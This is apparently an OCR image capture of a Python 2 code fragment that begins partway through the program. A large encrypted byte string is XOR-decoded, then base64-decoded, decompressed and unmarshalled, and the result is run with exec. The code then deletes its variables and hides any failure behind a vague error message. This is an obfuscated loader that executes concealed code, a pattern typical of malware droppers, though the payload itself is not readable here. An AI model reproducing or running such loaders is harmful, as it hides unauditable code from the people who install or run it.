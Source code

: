 ```python
    var11 = b'\x0bcy\x0e|\xef\xbb\xeeY2\xe3\xd8\x8e\xcdy\xaf\xa9n\xca\xa4d+\xc4\x1b\x9c\xed\xbb\xa7$\xdb\xd6\x8b!\xbd\xf6d\x9d\'\xef\xfd%\x8b\x11Y\x0b.N\x1c476ua=S9ht3\x149F>mO[Xc\x029J44I\x0bDVX7c/a8>bk\x0cHw.3J9fY\x1cvC\x18LA\xfaQR,<q/t7N5V&43+d7?Br\x150Q\xe9@+=SFUCO9Op/[+R^b\xb7s7m;q4S+6u+\x15\x069\\%b\x0677\x02#f\xe6;zodGr/{v6w1\x03it\\(u\x14St\nnQa\xeaDb\nC64Je\x01^jT|ySV\xf2Gl+\xfaLeZ\x1dfh\x15\xefnc\'zh\x07fZ\x00FC!IrNEp\x1blz4AR\xea2Y\xc1So\xc5m+\x1bei\'fc\x00U1c>5{H&Oh\xcdGv\x131NM\x00\x02eK\x02gc\x10FRbMM\x0fJF0^Q"OFkPX\x1e7|PuCVT`7q\x0b\x1aGVh\x13er9C51"G\x0enr\x1a\xd0L6 OWoe:>uq\x08mR[\x7f\x0esJ|P\x16\\\x04oKIR\x0bXZ~\x05kJQndoY|rkXGy\tzx\x0c[\tZVNR\x0bNyhl\x0fV_k{\x08\x0c\tN\x05IE|NJ\x0f\\Gm\x05mGqu|RnH\x7f[\t[|\x0f\x05T\x0bEnF\xd2\xe4\xa0\xad\xf4\xca\x85\xba\x1dNi>9?)\r<\x84\x97\xf4\x98bZW64$\n\x07_,\t\x1cc\x13\x87\xa2\xa5\xbcdJD2\x17*\xf6\xbc\xff\x9f\xd4\xea\x86\xe4\xa1\x82Tx\t8B;FW[@\x06\x168\x1f*<]70CQ\n3\x14\t&LCsc)\x0c[BePkwV{MzL\x0fGxvRQ\x0bHHIVxR\x0c\x0f[\x04vm\x0cOe\x04ix\\X\x16N[~\x0cpW\x08KLdwyUQ\x0eDQ\x08_koM\\qpZj\x12eL\x05\ri\rI\x0b\tg\tpRRQUQqeX\x04z\rT\x05R={>n\xb9\xf8`(]\x0c\xad\xbc\xa5\xf1\xd1\x07v\x92\x10\x18\x8d\x10\xc6\x910v\xc5B\xda\xe2\xb7\x18\x98\xf4\xce\xc5=\x0en,\x11\xa0\xcf\x96\x99i;\x0e\xcc\xf7[\tF\x99\xa4\x996\xfesp\x81\x8c\x9cS\xaf\xb7\xfd\xcc\x0f\xe2\xdc\x96\x19\x07\x13\xca\x8b\xdc"w}E\xebs\xf9\xbc8\xa1\xb3=\x07t\xea\x03\xc2H\xa8\x82\xaa\xcd\xd9\x7f\xb2.\xb2\xb3_J\x975xz:\x01\xe5\xef\xa9\nl\x81\xa9\xf2\x84\xd8~#1\x8b\x9a[r\xa3\xa2\xddO\xe2~f\x93w\xb1R\xe0L\xd3e4\xf0\x01\xdc?\xb5n\x9c\xde]$p\xf79Z\x92\xc0z\x16\x8b?\xdaSr\x90\xb20\x96\xaa\x95\x8d\x06\xf4I\r|\x8d\xeb\x84u5\xa1F\xa5O{\xc7\xcd\xae\xf7\x9c\xc7W!9\xf7\x9b\x10\x16\xa7\xe9\xdc\xb5\xdaE\xde\x05<\xa1\xfe*\xba\x94\x93&D\x84\xe6f\xd8Pa\xb3U\xeb\x89\xe7\xbd\x90\xc8+\xb8\xd7\x85\xed\xd5\'h\x82\xbfz!\xe7\x04p\x12y\x1b\xc8O\xe3\xa6\x99\xe4\xfb\x94\x7f\xe1\x96F%.8\xb0-l-^&(1+\xb1\x9f^r\xd5\x82,\x97\xdc\xb4\xfe\x1c\x89l\xaf\x1b\x17\x08v\x080\x92\xfd\xe7\xc7j\xf6Urg\xe4\xb4\x8f\xf4C!\xf3\xf36F\xc5<_Y\xb3\xbe\x12a\x9b\x9b\xe9\x9c\x8c\x97\x93#\xd0\xec\x87\x7f\xd1\xea(\x94\x98\xa4\xc0\x1b\x04\xd0,\xba$\x0e\xfbd\xc05P\x17\xbe(6"\xf7\xdd\xb2\xa5o\x9f\xdc\xa0-@B\x87\x9cL\xf9\xfa\x8f\xcb\xf5)\xd0H\x84_vB\xef\x1be\xb75\xc4\xa4\x7fK\xd5\xe4\xea\x86\x18\xec\xcf!M\x04r\x96O\xe1\x17\xb5\xf0\x192\xa5F\xfe\x01\xca\xa4\xa8\xc4I\x175\xa7\x9cW:\x0baoM\x16\xbe\xb1\x8a\xec\xbe\xe7\x85\xbfK3u\xa8\x80\xe5\xa2\x19\x17\t\x17\xa1\xf1A\xd5j\x18w{\xee\x8f\xb45\xdd0}\xb92\x9e\x8f\x87^\xdc\xf6\xa4>\xf6\xfe\r\x0e\x9c\xc8j6\xee\xdc\xe4%\xd0dTo\xc0\x87j\xe1\x0c}\xad\xc4B:\xa1\xaf\xc7\xcc9\xac0$p\xed!\xb7\xd2\xea\xdc\x86\xees\x92\xf8\xbc\x89H:\x17\xaeYcgq\x9c\xf5$\xa8\t\xee~/5\xf9@8q\x97]\x8dOM\xcc\xc3\x14\x108h\xab}\xec\xaa2\xfc\tS\x1e\xe8\x97;\x15`\xa1<\x13\x7f\xfd\xe1\xd6\xb2\x0b\x13r\xdd\xe6\xa3S\xa7\tU\xd0\x95\xcc\xb1\xefz\x97\xc2\xed\xd1\x1eVw\t\xe4\xcb\xe6\xc9\x84B\x8b\x7fw\xa4\xbb8;\xd9\xa1<\x91Z\x0b\x18\x08\xebdgY\xed8OY7\xb4\x98\x0c5\x9b+V\x806\xa7\x91\xc8\x7fn\xe5\xeb\x7f\xab\xe3\x1f\xed\xff\x8b\x7f\x1ad\xf1\xd9\xd3\x03k\x85e\xa5\xe3F\x05\x0f\xbfz=\xa0\x0b\xc5\xec\x94X\xd3\x1a\x1b\x19\x82\xbe3*\xc7\x04\xd3\xda\xb8\xe0\xde\x88\xff\x83\xa0eh\x10\xa2\xe9D\x97\x1du\xb8\xdaS\x03\x083\xc8\x80nS\xccz\x8b6z\xef\xe7>q\x0e\xf9_\x14S\xcb\x9b\x14\xab\t\xc8\xd8e \xad%\xa2\x84f\xf1\x08R\x88\x9f\x9760J\\\x07\xb3\x01l\x01\x94U\x0cUs4\x1b\x08\xe8\x7f\x07\xecr$\xd0%\x8c\xb5\xe8\x03\xa8\x95\xa8~\x1a\xff#|\xa6\rQg\xee\xe7\x90\x08\xda,oD\x91\x88wr\xf5\x1a\xa1\xa3\xb2\xa0\xa4\xf6F\x9d\xa0 \x95\x80\x86\x8b\xef\x98\x8e\xb0\xc0\xded\xf6\x0f\xa1\xc9\x8b\n\x10\x8d\x8b\xcb!\x9e\xf2\x05\x94`U\xe4\xe6\xc8\x88Kk\xeb\x1f\x98,|]\x9c\xa2\x9d\xcc\x15\x93\xae\x08\x06\x88t\x8ez^3\xaf\xd0\xf50\x11i\xa2=\xca\xb4/\xa4\x1b2.AyM\xc3Q\'\xbdk\xfb\xec\x9aq\xb8y\x80{\xd3\xf9\xb8\x0b\x841\xf1\x15\xa0I\xbbG\x824\xe6;p\xd1\xa5n\xc8\xb8O\xa3TK\x88\xec\xca\xb3(\x7f\x16z\xd5\xa6\x08kQ\xb6\xce\xe2\t\xa0\x17\xd4('
    var12 = len(var11)
    var13 = ''
    for var15 in range(0, var12):
        var13 += chr(ord(var11[var15]) ^ ord(var8[(var15 % var10)]))

    var13 = marshal.loads(zlib.decompress(base64.b64decode(var13)))
    exec var13
    exec var21(var6)
    del var8
    del var10
    del var11
    del var12
    del var13
    del var15
    del var6
    del var21
except:
    print 'An uncorrectable error has occurred while loading module.'

var21 = var22
del var21
```

